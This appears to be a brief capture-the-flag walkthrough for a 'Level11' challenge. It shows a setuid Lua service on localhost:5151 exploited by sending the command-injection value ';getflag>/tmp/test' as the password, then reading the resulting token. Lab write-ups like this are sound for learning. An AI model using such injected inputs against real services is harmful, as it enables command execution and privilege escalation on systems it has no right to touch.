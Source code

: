 # Level11
## Step by step
- In the user `level11` home directory, there is a file
  ```bash
  > ls
  -rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
  ```
- The file contains a code in Lua that is listening on localhost:5151
  ```bash
  > nc localhost 5151
  Password: ;getflag>/tmp/test
  > cat /tmp/test
  Check flag.Here is your token : XXX
  ```
